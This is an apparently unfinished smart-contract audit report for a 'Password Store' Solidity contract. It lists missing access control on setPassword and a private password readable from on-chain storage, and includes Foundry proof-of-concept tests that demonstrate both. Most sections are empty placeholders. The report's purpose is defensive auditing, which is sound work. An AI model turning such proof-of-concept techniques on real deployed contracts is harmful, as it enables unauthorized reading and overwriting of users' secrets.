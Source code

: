 ```yaml
---
title: Password Store Contract Audit Report
author: Daryle Tan
date: Oct 22, 2023
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---
```


<!-- Your report starts here! -->

Prepared by: [Daryle Tan](https://daryle-tan.netlify.app/)

Lead Auditors: Daryle Tan

- xxxxxxx

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

Protocol does X, Y, Z

# Disclaimer

The Daryle Tan team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scopes

## Roles

# Executive Summary

## Issues found

# Findings

lacking-access-control
anyone-can-read-storage

# High

lacking-access-control

anyone-can-read-storage

# Medium

# Low

Password not initialized in constructor

# Informational

# Gas

# POC

```solidity
    function test_missing_owner_check() public {
        // owner can set password
        vm.startPrank(owner);
        string memory expectedPassword1 = "myNewPassword";
        passwordStore.setPassword(expectedPassword1);
        string memory actualPassword1 = passwordStore.getPassword();
        assertEq(actualPassword1, expectedPassword1);
        vm.stopPrank();

        // attacker can also set password
        vm.startPrank(attacker);
        string memory expectedPassword2 = "attackerPassword";
        passwordStore.setPassword(expectedPassword2);
        vm.stopPrank();

        vm.startPrank(owner);
        string memory actualPassword2 = passwordStore.getPassword();
        assertEq(actualPassword2, expectedPassword2);
        vm.stopPrank();
    }

    // Create test to have non owner read the password variable
    function test_contract_memory_read() public view {
        bytes32 password = vm.load(address(passwordStore), bytes32(uint256(1)));
        console.logString(string(abi.encodePacked(password)));
    }
```
